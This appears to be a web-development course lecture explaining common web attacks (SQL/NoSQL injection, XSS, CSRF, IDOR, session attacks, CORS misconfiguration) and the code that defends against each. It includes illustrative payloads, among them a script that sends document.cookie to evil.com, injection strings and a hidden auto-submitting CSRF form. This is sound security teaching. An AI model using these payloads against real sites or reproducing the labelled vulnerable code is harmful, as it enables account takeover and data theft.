

# Lecture 31: Common Web Attacks and Defences

In Lecture 30 you learned the principles behind application security. Now it's time to
get concrete: this lecture walks through the specific attacks that hit real web
applications most often, how each one actually works, and the defence that stops it. By
the end, you'll be able to look at a piece of code and recognize when it's vulnerable.

## In This Lecture

- Understand SQL and NoSQL injection, and how parameterized queries prevent them
- Understand the three types of Cross-Site Scripting (XSS) and how to prevent it,
  including a brief intro to Content Security Policy (CSP)
- Understand Cross-Site Request Forgery (CSRF) and anti-CSRF tokens
- Understand broken access control and session hijacking/fixation
- Understand CORS misconfiguration as a security risk, and the basics of rate limiting

!!! note "Where these attacks come from"
    Most of the attacks in this lecture appear on the **OWASP Top 10**, a well-known,
    regularly updated list of the most critical web application security risks,
    published by the Open Worldwide Application Security Project (OWASP), a nonprofit
    that focuses on improving software security. It's a useful list to revisit
    throughout your career.

## SQL and NoSQL Injection

**Injection** attacks happen when untrusted input is inserted directly into a command
that gets executed by an interpreter — such as a database query — allowing an attacker
to change what that command actually does.

### SQL Injection

Imagine a login query built by directly gluing strings together:

```javascript
// VULNERABLE — never do this
const query = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;
db.execute(query);
```

This looks harmless if `username` and `password` are always exactly what you expect.
But an attacker controls what gets typed into the login form. If they enter this as the
username:

```text
' OR '1'='1
```

The query becomes:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = ''
```

Because `'1'='1'` is always true, this query can return every row in the `users` table,
potentially logging the attacker in as the first user in the database — without knowing
any password at all. This is **SQL injection**: the attacker "injected" their own SQL
logic into a query that was only supposed to accept a plain username.

### NoSQL Injection

Document databases like MongoDB are not immune to the same idea, even though they don't
use SQL. Consider an Express route that passes the request body straight into a query:

```javascript
// VULNERABLE — never do this
app.post("/login", async (req, res) => {
  const user = await User.findOne({
    username: req.body.username,
    password: req.body.password,
  });
  // ...
});
```

If the attacker sends a JSON body instead of plain strings, for example:

```json
{ "username": "admin", "password": { "$ne": null } }
```

MongoDB interprets `{ "$ne": null }` as an operator meaning "not equal to null" — which
is true for almost any password value in the database. The query effectively becomes
"find the admin user whose password is not null," logging the attacker in without
knowing the real password. This is **NoSQL injection**: the attacker injected a MongoDB
query *operator* instead of a plain value.

### The Fix: Parameterized Queries

The defence for both is the same idea: **never build a query by concatenating raw user
input into it.** Instead, use **parameterized queries** (also called **prepared
statements**), where the query structure and the user-supplied values are sent to the
database *separately*. The database engine then treats the values strictly as data,
never as executable query logic, no matter what characters they contain.

```javascript
// SAFE — SQL, using parameterized placeholders (node-postgres example)
const result = await pool.query(
  "SELECT * FROM users WHERE username = $1 AND password_hash = $2",
  [username, hashedPassword]
);
```

```javascript
// SAFE — Mongoose/MongoDB, enforcing expected types before querying
app.post("/login", async (req, res) => {
  const { username, password } = req.body;

  if (typeof username !== "string" || typeof password !== "string") {
    return res.status(400).json({ error: "Invalid input." });
  }

  const user = await User.findOne({ username }); // username is now guaranteed a plain string
  // then compare a hashed password separately, as covered in Lecture 25
});
```

An ORM/ODM like Mongoose, combined with the input validation habits from Lecture 30
(rejecting anything that isn't a plain string), closes off this entire class of attack.
A library called `express-mongo-sanitize` is also commonly used to automatically strip
any `$`-prefixed keys from incoming request data as an extra layer of defence.

!!! danger "Never build queries with string concatenation or template literals"
    If you ever see a query built like `` `... WHERE x = '${value}'` `` anywhere in your
    code — SQL or otherwise — treat it as a bug to fix immediately, even in a class
    project. This single habit, more than any other, is responsible for a huge share of
    real-world data breaches.

## Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** happens when an attacker manages to get their own
JavaScript to run inside another user's browser, in the context of your website. Because
the malicious script runs *as if it were part of your site*, it can steal cookies, read
whatever the logged-in user can see, or perform actions on their behalf.

There are three common types.

### Stored XSS

**Stored XSS** happens when malicious script gets saved on the server (e.g., in a
database) and is then served to other users later. A classic example is a comment box
that doesn't sanitize input: an attacker posts a comment containing
`<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>`. If your
app stores this comment as-is and later renders it into another user's page without
encoding it, that script runs in *every visitor's* browser who views the comment.

```mermaid
sequenceDiagram
    participant A as Attacker
    participant S as Server / Database
    participant V as Victim's Browser

    A->>S: Posts comment containing a &lt;script&gt; tag
    S->>S: Stores comment as-is (no sanitization)
    V->>S: Requests the page with comments
    S->>V: Sends HTML including the malicious script
    V->>V: Browser executes the script<br/>(steals cookies, makes requests as the victim)
```

### Reflected XSS

**Reflected XSS** happens when malicious script is part of a request (often a URL) and
the server immediately reflects it back into the response, without storing it anywhere.
A common example is a search page that echoes back the search term:
`https://example.com/search?q=<script>...</script>`, where the server renders
`You searched for: <script>...</script>` straight into the page. The attacker tricks a
victim into clicking a crafted link (often via email or a chat message), and the script
runs the moment the victim's browser loads the page.

### DOM-Based XSS

**DOM-based XSS** happens entirely in the browser's JavaScript, without the malicious
payload ever touching the server. It occurs when client-side code takes some
attacker-controlled input (like `location.hash` or a URL query parameter) and inserts it
unsafely into the page, for example via `innerHTML`. Because the vulnerable code runs
purely on the client, this type can be invisible even if you carefully audit your server
code.

```javascript
// VULNERABLE — DOM-based XSS
const params = new URLSearchParams(window.location.search);
document.getElementById("welcome").innerHTML = "Welcome, " + params.get("name");
// A URL like ?name= executes attacker JavaScript
```

### Preventing XSS

The core defence against all three types is **output encoding** (introduced in Lecture
30): never insert untrusted data into HTML, JavaScript, or a URL without properly
encoding it for that context first.

```javascript
// SAFE in React — text is automatically escaped
function Comment({ text }) {
  return <p>{text}</p>; // React encodes this; a <script> tag renders as harmless text
}
```

```javascript
// DANGEROUS in React — deliberately opts out of escaping
function Comment({ html }) {
  return <div dangerouslySetInnerHTML={{ __html: html }} />; // only use with sanitized HTML
}
```

If you genuinely need to render user-supplied HTML (for example, a rich-text blog post
editor), run it through a dedicated **sanitization** library first, such as `DOMPurify`,
which strips out dangerous tags and attributes (like `<script>` or `onerror=`) while
keeping safe formatting tags.

```javascript
import DOMPurify from "dompurify";

const clean = DOMPurify.sanitize(userSuppliedHtml);
// now safe to pass to dangerouslySetInnerHTML
```

### Content Security Policy (CSP)

**Content Security Policy (CSP)** is a browser-enforced security header (introduced
briefly in Lecture 30) that tells the browser exactly which sources of scripts, styles,
images, and other resources are allowed to load on your page. It acts as a safety net:
even if an attacker manages to sneak a `<script>` tag onto your page some other way, a
strict CSP can stop the browser from executing it, because the script's source wasn't on
the allowed list.

```http
Content-Security-Policy: default-src 'self'; script-src 'self'
```

This example policy says "only load scripts and other resources from this site's own
origin — nowhere else." A deep dive into writing complete CSP policies is a topic for a
more advanced security course, but knowing that CSP exists, and that it works
*alongside* output encoding rather than replacing it, is an important part of your
defence-in-depth toolkit.

## Cross-Site Request Forgery (CSRF)

**Cross-Site Request Forgery (CSRF)** tricks a logged-in victim's browser into sending a
request to your site that the victim never intended to make. It exploits the fact that
browsers automatically attach cookies (like a session cookie) to every request sent to a
site, regardless of which page triggered that request.

Imagine your banking site has an endpoint `POST /transfer` that moves money, and it
authenticates requests purely using a session cookie. An attacker sets up a completely
different, malicious website containing a hidden auto-submitting form:

```html
<!-- On evil.com — the victim never sees this form, it submits itself -->
<form action="https://yourbank.com/transfer" method="POST" id="csrf-form">
  <input type="hidden" name="amount" value="1000" />
  <input type="hidden" name="to" value="attacker-account" />
</form>
<script>document.getElementById("csrf-form").submit();</script>
```

If the victim is currently logged into `yourbank.com` in the same browser and visits
`evil.com`, their browser will still attach their `yourbank.com` session cookie to this
form submission automatically — because from the browser's point of view, it's just a
normal request to `yourbank.com`. The bank's server sees a validly authenticated
request and processes the transfer, even though the real user never clicked "transfer."



### Preventing CSRF: Anti-CSRF Tokens

The standard defence is an **anti-CSRF token**: a random, unpredictable value that the
server generates and embeds in each legitimate form or page. When the form is submitted,
the server checks that the submitted token matches the one it issued. Because
`evil.com` has no way to read or guess this token (it can't read cookies or page content
from a different origin, thanks to browser same-origin protections), it cannot forge a
valid request.

```javascript
// Simplified example using the csurf-style pattern
app.get("/transfer-form", (req, res) => {
  const csrfToken = generateRandomToken();
  req.session.csrfToken = csrfToken;
  res.render("transfer", { csrfToken });
});

app.post("/transfer", (req, res) => {
  if (req.body.csrfToken !== req.session.csrfToken) {
    return res.status(403).json({ error: "Invalid or missing CSRF token." });
  }
  // proceed with the transfer
});
```

!!! note "Why APIs using JWTs in headers are naturally more resistant"
    CSRF specifically abuses the browser's automatic cookie-attaching behavior. If your
    API instead requires a token to be sent manually in an `Authorization` header (as
    you did with JWTs in Lecture 25) rather than relying on cookies, a forged cross-site
    form submission has no way to attach that header — so this particular API design is
    naturally more resistant to CSRF, though it introduces its own tradeoffs around
    where that token is stored on the client.

## Broken Access Control

**Broken access control** is a broad category covering any situation where a user can
access data or perform an action they should not be permitted to — the authorization
failure introduced briefly as a "common and serious bug" in Lecture 30.

The most common everyday example is an **Insecure Direct Object Reference (IDOR)**:
an endpoint that trusts an ID supplied by the client without checking that the
*currently logged-in user* actually owns or has permission to access that specific
resource.

```javascript
// VULNERABLE — checks authentication, but not authorization
app.get("/api/invoices/:id", requireLogin, async (req, res) => {
  const invoice = await Invoice.findById(req.params.id);
  res.json(invoice); // returns ANY invoice, not just the logged-in user's own
});
```

```javascript
// SAFE — also verifies the resource belongs to this user
app.get("/api/invoices/:id", requireLogin, async (req, res) => {
  const invoice = await Invoice.findOne({ _id: req.params.id, owner: req.user.id });
  if (!invoice) {
    return res.status(404).json({ error: "Invoice not found." });
  }
  res.json(invoice);
});
```

Other common examples of broken access control include a regular user reaching an
`/admin` page simply by guessing its URL (because the server never checked their role),
or a frontend that merely *hides* an "Edit" button from unauthorized users without the
backend enforcing the same rule.

!!! danger "Hiding a button is not access control"
    Hiding an admin feature in your React UI (`{user.isAdmin && <AdminButton />}`) only
    improves the interface — it does nothing to stop someone from calling the admin API
    endpoint directly. Every privileged action must be enforced on the **server**, not
    just hidden on the client.

## Session Hijacking and Session Fixation

A **session** is the mechanism a server uses to remember that a particular user is
logged in across multiple requests, usually by issuing a session ID stored in a cookie.

**Session hijacking** happens when an attacker obtains a valid user's session ID (for
example, by stealing it via XSS, sniffing unencrypted HTTP traffic, or through a
leaked log file) and uses it to impersonate that user, without needing their password
at all.

**Session fixation** is a related but distinct attack: instead of stealing an existing
session ID, the attacker *sets* the victim's session ID to a known value *before* the
victim logs in (for example, by sending them a link containing a pre-chosen session ID).
If the server doesn't issue a fresh session ID at login time, the victim unknowingly logs
in using the attacker's chosen ID — and the attacker, who already knows that ID, is now
also logged in as the victim.

Defences against both include:

- Always use HTTPS, so session cookies cannot be sniffed over the network.
- Mark session cookies `HttpOnly` (inaccessible to JavaScript, which blocks theft via
  XSS) and `Secure` (only ever sent over HTTPS).
- Regenerate the session ID whenever a user logs in, so a pre-fixed ID becomes useless.
- Set a reasonable session expiration time, and let users explicitly log out
  (invalidating the session server-side, not just deleting the cookie client-side).

## CORS Misconfiguration

You met **CORS (Cross-Origin Resource Sharing)** earlier in this course as the mechanism
that lets a frontend on one origin (like `http://localhost:3000`) make requests to a
backend on another origin (like `http://localhost:5000`). It's worth revisiting CORS
here specifically as a *security* topic, because a careless CORS configuration can
undo protections you rely on elsewhere.

By default, browsers block a webpage from making requests to a different origin than
the one it was loaded from, unless the target server explicitly opts in via CORS
headers. This exists precisely to stop scenarios like the CSRF example above from being
even easier to pull off using JavaScript `fetch` requests instead of hidden forms.

```javascript
// DANGEROUS — reflects any origin and allows credentials
app.use(cors({
  origin: true,       // allows literally any website to make credentialed requests
  credentials: true,
}));
```

```javascript
// SAFE — explicitly allow only your own known frontend origin(s)
app.use(cors({
  origin: ["https://your-frontend-domain.com"],
  credentials: true,
}));
```

Setting `origin: true` (or manually reflecting whatever `Origin` header the request
sent) combined with `credentials: true` effectively tells browsers "any website on the
Internet is allowed to make authenticated requests to my API using the visiting user's
cookies." This defeats the very protection CORS is supposed to provide. Always list your
actual, specific allowed origins.

## Rate Limiting

**Rate limiting** restricts how many requests a single client (identified by IP address,
user account, or API key) can make in a given time window. It's a simple but effective
defence against several problems at once:

- **Brute-force login attempts** — an attacker trying thousands of password guesses per
  minute against your login endpoint.
- **Denial-of-service style abuse** — a client (malicious or just badly written)
  hammering your API with requests, threatening availability.
- **Data scraping** — bots aggressively pulling data from your API.

A simple example using the popular `express-rate-limit` middleware:

```javascript
const rateLimit = require("express-rate-limit");

const loginLimiter = rateLimit({
  windowMs: 15 * 60 * 1000, // 15 minutes
  max: 5,                   // limit each IP to 5 login attempts per window
  message: "Too many login attempts. Please try again later.",
});

app.post("/api/login", loginLimiter, loginHandler);
```

!!! tip
    Apply stricter rate limits on sensitive endpoints like login and password reset
    than on general read-only endpoints — that's where brute-force attacks are aimed.

## Try It Yourself

1. Take the vulnerable login query example from the SQL injection section of this
   lecture. Write out, step by step, what the final SQL string looks like if an attacker
   submits `' OR '1'='1' --` as the username, and explain in your own words why the
   query then returns rows it shouldn't.
2. In a React or Express project you've built, find one place where you render
   user-supplied data (a comment, a username, a bio) or accept a resource ID from the
   client. Identify whether it's protected against XSS (is it encoded/sanitized?) and
   broken access control (does the server check ownership?). Fix anything you find
   missing.

## Key Takeaways

- **SQL/NoSQL injection** happens when untrusted input is mixed into a query as if it
  were code; **parameterized queries** (and validating expected types) prevent it by
  keeping data and query logic strictly separate.
- **XSS** (stored, reflected, and DOM-based) lets an attacker run their own script in
  another user's browser; the defence is consistent **output encoding**/**sanitization**,
  reinforced by a **Content Security Policy**.
- **CSRF** tricks a logged-in victim's browser into submitting an unwanted request;
  **anti-CSRF tokens** (or header-based auth instead of cookies) stop it.
- **Broken access control** means checking *who* someone is but not *what they're
  allowed to do* — every privileged action and every resource lookup must be
  authorization-checked on the server.
- **Session hijacking** steals an existing session; **session fixation** plants one in
  advance. `HttpOnly`/`Secure` cookies and regenerating session IDs at login defend
  against both.
- A **CORS misconfiguration** (especially reflecting any origin with credentials
  enabled) can silently undo the protection CORS is meant to provide.
- **Rate limiting** slows down brute-force and abuse attempts against sensitive
  endpoints like login.
